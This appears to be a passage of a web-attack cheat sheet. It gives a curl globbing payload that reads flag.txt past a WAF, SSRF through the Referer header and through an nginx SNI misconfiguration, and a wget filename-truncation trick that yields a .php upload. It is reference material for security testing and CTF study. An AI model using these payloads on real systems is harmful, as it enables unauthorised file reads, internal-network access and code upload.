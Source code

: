 ```html

```
* **Curl URL globbing - WAF bypass**
  * https://blog.arkark.dev/2022/11/18/seccon-en/#web-easylfi
  * https://everything.curl.dev/cmdline/globbing

```html
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}

```

* **SSRF via Referrer header**

Some applications employ server-side analytics software that tracks visitors. This software often logs the Referrer header in requests, since this is of particular interest for tracking incoming links. Often the analytics software will actually visit any third-party URL that appears in the Referrer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the Referer header often represents fruitful attack surface for SSRF vulnerabilities.
To discover this kind of "hidden" vulnerabilities you could use the plugin "Collaborator Everywhere" from Burp.

* **SSRF via SNI data from certificate**

The simplest misconfiguration that would allow you to connect to an arbitrary backend would look something like this
```html
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}

```
Here, the SNI field value is used directly as the address of the backend.
With this insecure configuration, we can exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field. For example, the following command would force Nginx to connect to internal.host.com
```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf

```
* **wget File Upload**

```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080

```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
```